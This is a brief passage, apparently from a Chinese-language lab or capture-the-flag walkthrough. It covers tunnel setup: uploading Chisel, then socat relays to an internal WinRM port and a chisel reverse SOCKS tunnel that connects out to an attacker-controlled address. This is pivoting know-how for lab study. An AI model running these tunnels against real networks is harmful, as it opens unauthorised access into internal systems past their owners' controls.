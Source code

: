 [![](assets/1699929055-342b84cc617782ac02ea928d01de3d6b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104235-4d5c3a68-81ce-1.png)

## 隧道搭建

上传 Chisel，然后搭建隧道。

[![](assets/1699929055-81f988c6deb293405ac58be0b0dc7d5c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231113104249-55d0a940-81ce-1.png)

```bash
./socat tcp-listen:60218,reuseaddr,fork tcp:192.168.122.228:5985 &
./chisel_1.9.1_linux_amd64 server -p 8000 --reverse
./chisel_1.9.1_linux_amd64 client 10.10.14.39:8001 R:socks
./socat tcp-listen:55555,reuseaddr,fork tcp:192.168.122.228:5985
socat tcp-listen:5985,reuseaddr,fork tcp:10.10.16.5:55555
```
